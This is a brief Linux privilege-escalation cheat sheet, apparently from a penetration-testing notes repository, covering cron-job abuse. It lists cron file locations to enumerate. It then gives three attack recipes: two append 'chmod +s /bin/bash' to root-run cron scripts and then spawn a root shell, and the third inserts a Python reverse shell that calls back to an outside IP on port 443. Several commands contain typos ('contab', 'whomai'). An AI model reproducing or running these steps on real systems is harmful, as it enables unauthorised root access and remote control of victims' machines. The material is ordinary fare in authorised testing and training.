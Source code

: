 ### Crontabs
```
Enumeration

contab -l
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly

Example 1

Privilege Escalation via Nonexistent File Overwrite

cat /etc/crontab
Output Example: * * * * * root systemupdate.sh
echo 'chmod +s /bin/bash' > /home/user/systemupdate.sh
chmod +x /home/user/systemupdate.sh
Wait a while
/bin/bash -p
id && whoami

Example 2

Privilege Escalation via Root Executable Bash Script

cat /etc/crontab
Output Example: * * * * * root /usr/bin/local/network-test.sh
echo "chmod +s /bin/bash" >> /usr/bin/local/network-test.sh
Wait a while
id && whomai

Example 3

Privilege Escalation via Root Executable Python Script Overwrite

Target

cat /etc/crontab
Output Example: * * * * * root /var/www/html/web-backup.py
cd /var/www/html/
vi web-backup.py
Add the below to the script:

import socket
import subprocess
import os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("10.10.10.10",443)); 
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/bash","-i"]);

// Replace the IP & Port 

```